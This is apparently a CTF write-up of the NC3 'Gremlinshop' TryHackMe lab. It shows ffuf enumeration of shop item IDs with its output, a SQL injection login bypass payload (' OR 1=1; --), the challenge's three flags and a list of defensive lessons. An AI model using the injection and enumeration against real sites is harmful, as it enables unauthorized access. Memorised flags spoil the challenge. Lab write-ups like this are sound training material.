


+++
title = 'Gremlinshop'
categories = ['Kom godt i gang']
tags = ["CTF", "NC3", "Crypto", "Encoding"]
date = 2025-12-02
scrollToTop = true
author = "Onero"
+++

## Challenge Name:

Gremlinshop: Begravet i mængden - Autoriseret Adgang - Men hvilken aktør?

## Category:

Kom godt i gang

## Challenge Description:

Julemandens Efterretningstjeneste (JET) har længe vandret blandt gremlins for at forhindre deres planer om at spolere julen. For nyligt fandt de en hjemmeside med information om en hemmelig webshop for gremlins.

Tjek den ud, og se om du kan hjælpe JET med at finde alle gremlins hemmeligheder.

Start server på TryHackMe og tilgå hjemmesiden fra den tildelte IP-adresse

https://tryhackme.com/jr/gremlinshop

## Approach

### Webshop Recon: 
We started out by visiting the storefront and browsed visible items to understand page structure and how item IDs were used.


### ID Enumeration: 
We see quite a few products on the page and start out by enumerating how many we might be able to find
So we probed sequential item IDs to see how many were truly available. This showed some valid items weren’t linked in the UI!

```bash
┌──(root㉿ec286e886c38)-[/app]
└─# ffuf -w item_ids.txt:ID \
-u http://gremlinshop.nc3/item/ID \
-fs 200 \
-fc 404 \
-p 1 \
-t 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://gremlinshop.nc3/item/ID
 :: Wordlist         : ID: /app/item_ids.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Delay            : 1.00 seconds
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
 :: Filter           : Response size: 200
________________________________________________

1                       [Status: 200, Size: 1966, Words: 449, Lines: 59, Duration: 65ms]
2                       [Status: 200, Size: 1898, Words: 441, Lines: 59, Duration: 51ms]
3                       [Status: 200, Size: 1891, Words: 445, Lines: 59, Duration: 90ms]
4                       [Status: 200, Size: 1922, Words: 453, Lines: 59, Duration: 69ms]
5                       [Status: 200, Size: 1879, Words: 439, Lines: 59, Duration: 75ms]
6                       [Status: 200, Size: 1932, Words: 452, Lines: 59, Duration: 81ms]
7                       [Status: 200, Size: 1875, Words: 439, Lines: 59, Duration: 52ms]
8                       [Status: 200, Size: 1860, Words: 440, Lines: 59, Duration: 76ms]
9                       [Status: 200, Size: 1942, Words: 448, Lines: 59, Duration: 86ms]
10                      [Status: 200, Size: 1894, Words: 445, Lines: 59, Duration: 72ms]
11                      [Status: 200, Size: 1887, Words: 443, Lines: 59, Duration: 51ms]
12                      [Status: 200, Size: 1953, Words: 451, Lines: 59, Duration: 59ms]
13                      [Status: 200, Size: 2002, Words: 467, Lines: 61, Duration: 44ms]
14                      [Status: 200, Size: 1902, Words: 444, Lines: 59, Duration: 64ms]
15                      [Status: 200, Size: 1837, Words: 433, Lines: 59, Duration: 65ms]
16                      [Status: 200, Size: 1944, Words: 450, Lines: 59, Duration: 84ms]
17                      [Status: 200, Size: 1924, Words: 449, Lines: 59, Duration: 70ms]
18                      [Status: 200, Size: 1942, Words: 448, Lines: 59, Duration: 64ms]
19                      [Status: 200, Size: 1873, Words: 436, Lines: 59, Duration: 83ms]
20                      [Status: 200, Size: 1844, Words: 434, Lines: 59, Duration: 51ms]
21                      [Status: 200, Size: 1895, Words: 441, Lines: 59, Duration: 71ms]
```
Hidden Item (ID 13)!
Navigating directly to the missing ID revealed a hidden product; ID 13 was the lucky find. 


### SQL Injection (Login)
The login for item/user path 2 was vulnerable to SQL injection, enabling auth bypass. 

```bash
lagerlasse
' OR 1=1; --
```

Proof: 

### Admin Insights
Logging in as admin exposed extra user details and a lead to a user listing. Reference: [users.txt](users.txt).

### Kasse Karlo → Final Flag
Using the insights, logging in as “Kasse Karlo” revealed the final flag. 


## Flags

```text
NC3{D0_no7_5tOr3_S3cr3ts_1N_br0wse4bl6_9l4ceS}
NC3{4Lway5_s4ni7Ise_1nP8T}
NC3{8S1nt_c4N_L34d_7o_n3W_f1nd1nGs}
```

## Reflections and Learnings
 
- Enumeration matters: Browsing visible items isn’t enough—sequential ID probing revealed hidden content (ID 13). Always validate assumptions about what the UI exposes.
- Trust boundaries: Public endpoints that accept identifiers should enforce access control and avoid leaking undisclosed items.
- SQL injection basics: Even simple login forms can be vulnerable; parameterized queries and proper input handling are non‑negotiable.
- Least privilege: Admin views surfaced extra insights and leads. Keep privileged data behind robust authentication and authorization.
- OSINT/user enumeration: Small hints (like a user list) can chain into full compromise. Audit what meta-information is exposed.
- Operational tips: Use lightweight fuzzing/enumeration tools (e.g., ffuf) with filters to quickly spot outliers by status/size.
- Defense in depth: Combine input validation, prepared statements, error handling, and monitoring to catch anomalies early.
